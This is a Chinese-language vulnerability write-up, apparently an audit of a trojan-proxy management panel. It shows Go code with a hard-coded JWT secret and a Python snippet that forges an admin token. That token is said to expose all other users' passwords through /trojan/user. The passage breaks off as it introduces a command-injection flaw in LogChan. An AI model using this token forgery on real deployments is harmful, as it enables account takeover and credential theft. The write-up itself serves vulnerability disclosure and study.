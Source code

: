 
## 硬编码jwt密钥

在 `web/auth.go` 文件中

```go
func jwtInit(timeout int) {
	authMiddleware, err = jwt.New(&jwt.GinJWTMiddleware{
		Realm:       "k8s-manager",
		Key:         []byte("secret key"),
		Timeout:     time.Minute * time.Duration(timeout),
		MaxRefresh:  time.Minute * time.Duration(timeout),
		IdentityKey: identityKey,
		SendCookie:  true,
		PayloadFunc: func(data interface{}) jwt.MapClaims {
			if v, ok := data.(*Login); ok {
				return jwt.MapClaims{
					identityKey: v.Username,
				}
			}
			return jwt.MapClaims{}
		}
	......
	})
}
```

可以看到硬编码的 jwt 密钥 `secret key`

有jwt密钥我们就可以伪造任意用户的token,默认管理员用户是admin

先解码看下格式

![](../../img/trojan-case/Untitled%201.png)

测试生成admin的token

```python
import jwt
jwt.encode({'exp':1664179347,'id':'admin','orig_iat':1664172147},algorithm='HS256',key='secret key')
```

![](../../img/trojan-case/Untitled%202.png)

![](../../img/trojan-case/Untitled%203.png)

通过这个token访问 `/trojan/user` 接口可以得到除admin外所有用户账号密码,以及服务的对应域名

---

## 命令注入漏洞

在 `util/linux.go` 文件的LogChan函数中,存在命令执行函数exec
